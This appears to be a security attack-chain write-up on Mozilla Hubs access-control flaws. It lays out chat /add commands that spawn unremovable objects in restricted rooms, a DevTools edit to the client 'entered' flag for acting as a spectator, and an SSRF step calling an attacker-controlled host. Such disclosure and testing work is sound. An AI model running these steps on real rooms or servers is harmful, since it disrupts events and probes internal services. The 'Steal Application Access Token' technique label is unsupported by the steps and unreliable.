

# Bypassing Access Controls in Mozilla Hubs to Spawn Persistent Objects and Trigger SSRF

Multi-stage attack chain demonstrating exploitation of broken access control in Mozilla Hubs, allowing unauthorized users to spawn persistent 3D models and media via chat commands, bypass room entry as a spectator, and potentially trigger server-side request forgery for disruption of virtual events or further reconnaissance.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Chrome-DevTools]]

### Target Environment

- Web platform
- Mozilla Hubs service running on https://*.dev.myhubs.net/
- Access to a Hubs room URL
- No specific ports required (WebSocket-based)

### Initial Access Requirements

- Public access to Hubs room (no credentials needed for spectator or join)
- Browser with DevTools (Chrome recommended)
- Network access to Hubs instance

## Detailed Attack Procedures

### Step 1: Setup Restricted Room
procedure: [[procedures/Setup-Restricted-Hubs-Room]]

**Objective**: Configure a Hubs room with admin restrictions on object creation and movement to simulate a controlled environment for testing bypass.

**Instructions**: Sign in to the Hubs instance, create a new room, and apply restrictions via the settings menu to disable object creation and pinning.

**Expected Output**: Room settings updated; users joining see only chat available, no object manipulation UI.

**Success Indicators**:
- Room created and joined successfully
- Settings confirm 'Create and move objects' and 'Pin objects' are disabled

### Step 2: Join and Bypass via Chat
procedure: [[procedures/Spawn-Objects-via-Chat-Bypass]]

**Objective**: Join the restricted room as a non-admin and use chat commands to spawn removable and unremovable objects, bypassing server-side validation.

**Instructions**: Navigate to the room URL in a new browser, join the meeting, open chat, and execute [[commands/hubs-add-model]] followed by [[commands/hubs-add-unremovable-model]] and [[commands/hubs-add-youtube-video]].

```bash
/add https://quikke.assets.dev.myhubs.net/hubs/assets/models/DuckyMesh-b80f0ece1f58a683839a..glb
```

```bash
/add --no-menu https://quikke.assets.dev.myhubs.net/hubs/assets/models/DuckyMesh-b80f0ece1f58a683839a..glb
```

```bash
/add --no-menu https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

**Expected Output**: Objects (duck model, unremovable duck, playing YouTube video) appear in the room; video loops continuously and cannot be removed.

**Success Indicators**:
- Objects spawn despite restrictions
- Non-admin users cannot delete unremovable items
- Multiple spawns possible for spamming

### Step 3: Bypass Room Entry as Spectator
procedure: [[procedures/Bypass-Room-Entry-as-Spectator]]

**Objective**: Exploit client-side enforcement to execute chat commands without formally joining the room, allowing external disruption.

**Instructions**: Load the room URL as a spectator (do not enter), open Chrome DevTools, navigate to message-dispatch.js, and modify the 'entered' flag to true before running [[commands/hubs-add-model]] in chat.

**Expected Output**: Chat commands execute, spawning objects from spectator mode without room entry.

**Success Indicators**:
- DevTools modification applied without errors
- Objects appear in room from external access
- No join confirmation required

### Step 4: Trigger SSRF with Custom URLs
procedure: [[procedures/Trigger-SSRF-with-Custom-URLs]]

**Objective**: Use the /add command with malicious URLs to induce server-side requests, potentially forging requests to internal services.

**Instructions**: In the room chat, execute [[commands/hubs-add-custom-url]] with a controlled server URL to observe backend pingbacks.

```bash
/add --no-menu http://attacker-controlled-server.com/ping
```

**Expected Output**: Multiple HTTP requests (pingbacks) from Hubs server to the provided URL, indicating SSRF.

**Success Indicators**:
- Server logs show incoming requests from Hubs backend
- Potential for internal resource access if URLs target intranet

## Attack Chain Summary

### Key Achievements

1. Bypassed admin restrictions to spawn disruptive content in restricted rooms
2. Enabled spectator-mode attacks without joining, increasing attack surface
3. Demonstrated SSRF for potential reconnaissance or further exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]
- [[Steal Application Access Token]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
